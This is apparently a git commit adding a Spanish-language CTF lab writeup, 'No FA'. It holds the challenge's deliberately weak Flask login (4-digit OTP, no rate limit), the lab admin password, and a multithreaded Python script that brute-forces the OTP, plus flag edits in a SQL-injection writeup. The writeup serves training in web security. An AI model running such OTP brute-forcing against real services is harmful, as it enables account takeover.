

Agregar writeup del reto `No FA`

diff --git a/2026/valentinoamato/No FA/app.py b/2026/valentinoamato/No FA/app.py
@@ -1,0 +1,78 @@
+from flask import Flask, render_template, request, flash, redirect, url_for, session, send_file
+from dotenv import load_dotenv
+
+import db
+import os
+import hashlib
+import random
+import time
+
+load_dotenv()
+
+app = Flask(__name__)
+app.secret_key = os.getenv('SECRET_KEY')
+
+@app.before_request
+def initialize():
+    app.before_request_funcs[None].remove(initialize)
+    db.init_db()
+
+@app.route("/")
+def home():
+    if 'username' not in session or session['logged'] == 'false':
+        flash('Please login to access this page', 'red')
+        return redirect(url_for('login'))
+    
+    flag = "No flag for you!!"
+    if session.get('username') == 'admin':
+        flag = os.getenv('FLAG')
+    
+    return render_template("index.html", flag=flag)
+
+@app.route('/login', methods=['GET', 'POST'])
+def login():
+    if request.method == 'POST':
+        username = request.form['username']
+        password = request.form['password']
+        user = db.get_user_by_username(username)
+        if user and hashlib.sha256(password.encode()).hexdigest() == user['password']:
+            if user['two_fa']:
+                # Generate OTP
+                otp = str(random.randint(1000, 9999))
+                session['otp_secret'] = otp
+                session['otp_timestamp'] = time.time()
+                session['username'] = username
+                session['logged'] = 'false'
+                # send OTP to mail ---
+                return redirect(url_for('two_fa'))
+            else:
+                session['username'] = username
+                session['logged'] = 'true'
+                flash('Login successful!', 'green')
+                return redirect(url_for('home'))
+        else:
+            flash('Invalid username or password', 'red')
+    return render_template('login.html')
+
+@app.route('/two_fa', methods=['GET', 'POST'])
+def two_fa():
+    if request.method == 'POST':
+        otp = request.form['otp']
+        stored_otp = session['otp_secret']
+        timestamp = session.get('otp_timestamp')
+        if stored_otp and otp == stored_otp and (time.time() - timestamp) < 120:
+            session['logged'] = 'true'
+            flash('Login successful!', 'green')
+            return redirect(url_for('home'))
+        else:
+            flash('Invalid OTP or OTP expired', 'red')
+            return render_template('2fa.html')
+    else:
+        return render_template('2fa.html')
+
+@app.route('/logout')
+def logout():
+    flash('You have been logged out.', 'green')
+    session.pop('username', None)
+    session['logged'] = 'false'
+    return redirect(url_for('login'))

diff --git a/2026/valentinoamato/No FA/main.py b/2026/valentinoamato/No FA/main.py
@@ -1,0 +1,95 @@
+#!/bin/python3
+from operator import contains
+ 
+import time
+
+import re
+
+import requests
+
+import threading
+
+session = requests.Session()
+
+
+base_url = input("Please enter the URL of the page: ")
+
+# Hay que cubrir 9000 numeros en 120s
+jobs = int(input("Please enter the number of jobs to use: "))
+
+START = 1000
+FINISH = 9999
+
+current = START
+
+chunks = 100
+
+done = False
+
+otp = 0
+
+condition = threading.Condition()
+
+mutex = threading.Lock()
+
+
+def worker_job(job_id: int):
+    global current
+    global done
+
+    while not done:
+        start = 0
+        finish = 0
+        with mutex:
+            start = current
+            current += chunks
+            finish = current
+
+        if (start > FINISH):
+            done = True
+
+        for i in range(start, finish):
+            if done:
+                break
+
+            response = session.post(f"{base_url}//two_fa", data={"otp": str(i)})
+            print(i)
+            if not contains(str(response.content), "Invalid OTP or OTP expired"):
+                print(f"OTP found: '{i}'")
+
+                print(f"Found flag: {re.search(r"academy\{[^}]+\}", response.text).group(0)}")
+                done = True
+                break
+
+            if time.monotonic() - start_time >= timeout:
+                done = True
+                print("Elapsed time reached 2 minutes. Aborting...")
+                break
+
+
+# Iniciar sesion con el admin
+login_url = f"{base_url}//login"
+credentials = {
+    "username": "admin",
+    "password": "apple@123"
+}
+
+response = session.post(login_url, data=credentials)
+
+if response.status_code != 200:
+    print(f"Failed to login: {response.text}")
+    exit
+
+start_time = time.monotonic()
+timeout = 120  # El OTP dura 2 minutos
+
+# Crear e iniciar los hilos
+threads = []
+for i in range(jobs):
+    t = threading.Thread(target=worker_job, args=(i,))
+    threads.append(t)
+    t.start()
+
+# Esperar a que todos los hilos terminen
+for t in threads:
+    t.join()

diff --git a/2026/valentinoamato/More SQLi/main.py b/2026/valentinoamato/More SQLi/main.py
@@ -34,7 +34,7 @@ response = session.post(
         }
 )
 
-match = re.search(r"picoCTF\{[^}]+\}", response.text)
+match = re.search(r"academy\{[^}]+\}", response.text)
 
 if match:
     print(f"Found flag: {match.group(0)}")

diff --git a/2026/valentinoamato/No FA/README.md b/2026/valentinoamato/No FA/README.md
@@ -1,0 +1,48 @@
+# No FA
+
+## Resolución
+Para comenzar el reto, creamos una nueva instancia del mismo, desde la página de [CyLab](https://learn.cylabacademy.org/library/765).
+![instance](./imagenes/instance.png)
+
+Al crear la instancia, se nos brinda el código que usa el servidor, [app.py](./server.py), y informacion "filtrada", [users.db](./users.db).
+
+Si inspeccionamos `users.db`, encontramos una tabla `users`.
+
+![sqlite](./imagenes/sqlite.png)
+
+En `app.py` podemos ver que las contraseñas se codifican en hexadecimal y luego se almacena su hash `sha256`.
+
+
+![login](./imagenes/login.png)
+
+Como tenemos el hash de la contraseña del admin, primero hacemos una búsqueda inversa usando una [herramienta](https://hashes.com/en/decrypt/hash)
+
+![decrypt](./imagenes/decrypt.png)
+
+Luego decodificamos el valor obtenido.
+
+![decode](./imagenes/decode.png)
+
+Ahora que tenemos la contraseña del admin, nos dirigimos a la página e iniciamos sesión.
+
+![login2](./imagenes/login2.png)
+
+Ahora la página nos solicita el código OTP.
+
+![2fa](./imagenes/2fa.png)
+
+Si analizamos la [aplicacion](./app.py), podemos notar que no hay ningún tipo de rate limit. Por lo que utilizaremos un ataque de fuerza bruta para obtener el OTP.
+
+Sabiendo que el OTP es un número entre 1000 y 9999 ([app.py](./app.py:41)), creamos un script que realice un ataque de fuerza bruta probando distintos valores de OTP hasta encontrar el correcto.
+
+El [script](./main.py) consta de un conjunto de workers que colaboran para probar los distintos posibles OTPs. Si alguno lo encuentra, o se acaba el tiempo (120 segundos), todos los workers terminan.
+
+![worker](./imagenes/worker.png)
+
+Al ejecutar el script, este inicia sesión con las credenciales del administrador y comienza inmediatamente el ataque de fuerza bruta.
+
+![scriptstart](./imagenes/scriptstart.png)
+
+Luego de unos segundos, el script finaliza, encontrado la flag: `academy{n0_r4t3_n0_4uth_24652f75}`
+
+![found](./imagenes/found.png)

diff --git a/2026/valentinoamato/More SQLi/README.md b/2026/valentinoamato/More SQLi/README.md
@@ -44,7 +44,7 @@ Como se puede ver, la tabla `more_table` tiene una columna `flag`, así que real
 ```
 ![flag](./imagenes/flag.png)
 
-Finalmente obteniendo la flag del reto: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_3b0fca37}`
+Finalmente obteniendo la flag del reto: `academy{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_63cbcebc}`
 
 ## Script
 El [script](./main.py) realizado realiza una primera inyección al login, obteniendo una sesión, y luego una segunda inyección para obtener la flag.
